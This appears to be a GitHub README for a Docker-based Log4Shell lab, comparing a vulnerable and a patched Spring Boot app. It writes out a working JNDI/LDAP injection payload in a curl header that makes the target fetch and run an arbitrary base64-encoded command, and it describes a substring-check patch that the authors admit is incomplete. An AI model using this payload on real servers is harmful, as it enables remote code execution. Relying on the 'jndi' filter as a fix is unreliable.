

# **Githubs & Websites Referenced**:
- [Tangxiaofeng7’s Log4J PoC Repo](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
- [pimps JNDI-Injection-Exploit LDAP Server](https://github.com/pimps/JNDI-Exploit-Kit)
- [christophetd’s vulnerable Springboot Server](https://github.com/christophetd/log4shell-vulnerable-app/pkgs/container/log4shell-vulnerable-app)
- [Cygenta Log4Shell Demo Walkthrough](https://www.cygenta.co.uk/post/your-own-log4shell-demo)

For this demo we will be using three docker containers to run different web applications. Two containers will be running a Springboot web server which uses a vulnerable version of Log4J2, one of which will be vulnerable and one which we have patched. This simple web app logs the value of the X-Api-Version header from web requests. The third container will be running the JNDI Injection LDAP server which responds to the LDAP requests from the web server and creates malicious Java classes. 
***If you have issues with docker, try running with sudo.***
# **Vulnerable Demo:**

For simplicity we will be using three terminals: one to run and interact with the web app, one to run the LDAP server, and one to send the malicious payload.

- Step 1: Start a docker network, which allows multiple containers to communicate, enter the command:
`docker network create log4jnetwork`
- Step 2: Run the vulnerable application that will be exploited. In the Application Terminal, enter the command:
`docker run --rm --network log4jnetwork --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`
- Step 3: Set up LDAP. In the LDAP Terminal, enter the command:
`docker run --rm --network log4jnetwork --name log4jldapserver -p 1389:1389 -p 8888:8888 cygenta/log4jldap`
- Step 4: Run the exploit. In the Command Terminal enter the command:
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://log4jldapserver:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}'`
“dG91Y2ggL3RtcC9oYWNrZWQ=” is the base64 encoded command to touch a file named “hacked”
For additional commands, base64 encode them and include them in the above command after “Base64/”
- Step 4.1: Check the file has been created. In the Command Terminal, enter the command:
`docker exec vulnerable-app ls /tmp`

# **Patched Demo**:
 
Open three terminals as done in the first unpatched demo.

- Step 1: Start a docker network which allows multiple containers to communicate, enter the command:
`docker network create log4jfixednet`
- Step 2: Clone the github with the patched application. In the Application Terminal, enter the command:
	`git clone https://github.com/wyatwrig/log4j-patch`
Change directory so you are in /log4j-patch.
- Step 3: Build the patched application. In the Application Terminal, enter the command:
	`docker build -t fixed .`
This may take a few minutes.
- Step 4: Run the patched application that cannot be exploited. In the Application Terminal, enter the command:
`docker run --rm --network log4jfixednet --name fixed-app -p 8080:8080 fixed`
- Step 5: Set up LDAP. In the LDAP Terminal, enter the command:
`docker run --rm --network log4jfixednet --name log4jldapserver -p 1389:1389 -p 8888:8888 cygenta/log4jldap`
- Step 6: Run the exploit. This command sends an HTTP packet to the webserver with the X-Api-Version header set to the JNDI payload. In the Command Terminal enter the command:
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://log4jldapserver:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}'`
- Step 6.1: You should see “JNDI attempted” in the terminal. To check the file has not been created, enter the command:
`docker exec fixed-app ls /tmp`

We patched the app by changing the source code for the vulnerable app. We included an if statement that checked whether the input contained “jndi”. We changed this in the file /log4j-patch/src/main/java/fr/christophetd/log4shell/vulnerableapp/MainController.java. The below image is a screenshot of the updated source code:

This patch does not prevent all further attacks on Log4j. To stop all possible attacks, one would need to update their spring boot version which includes an updated Log4j which disables JNDI LDAP lookups entirely. 
